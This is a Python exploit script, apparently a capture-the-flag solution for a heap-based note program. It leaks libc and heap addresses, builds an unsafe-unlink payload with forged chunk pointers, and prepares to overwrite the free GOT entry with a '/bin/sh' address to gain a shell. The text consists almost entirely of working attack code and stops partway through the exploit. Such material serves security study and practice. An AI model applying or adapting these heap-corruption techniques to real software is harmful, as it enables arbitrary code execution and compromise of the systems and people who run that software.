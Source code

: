 ```python

binsh_addr = libc_base_addr + next(libc.search('/bin/sh'))
print "binsh_addr: " + hex(binsh_addr)


####################leak heap#########################

notelen=0x80

new_note("A"*notelen)#0
new_note("B"*notelen)
new_note("C"*notelen)
new_note("D"*notelen)
delete_note(2)
delete_note(0)

#gdb.attach(p)
#raw_input()
new_note("AAAAAAAA")
list_note()
p.recvuntil("0. AAAAAAAA")
leak = p.recvuntil("\n")

print leak[0:-1].encode('hex')
leakheapaddr = u64(leak[0:-1].ljust(8, '\x00'))

print "leakheapaddr: "+hex(leakheapaddr)

#raw_input()
delete_note(0)
delete_note(1)
delete_note(3)

####################unlink exp#########################

notelen = 0x80

new_note("A"*notelen)
new_note("B"*notelen)
new_note("C"*notelen)

delete_note(2)
delete_note(1)
delete_note(0)

fd = leakheapaddr - 0x1808
bk = fd + 0x8


#gdb.attach(p)

payload  = ""
payload += p64(0x0) + p64(notelen+1) + p64(fd) + p64(bk) + "A" * (notelen - 0x20)
payload += p64(notelen) + p64(notelen+0x10) + "A" * notelen
payload += p64(0) + p64(notelen+0x11)+ "\x00" * (notelen-0x20)

new_note(payload)

delete_note(1)

free_got = 0x602018

payload2 = p64(notelen) + p64(1) + p64(0x8) + p64(free_got) + "A"*16 + p64(binsh_addr)
```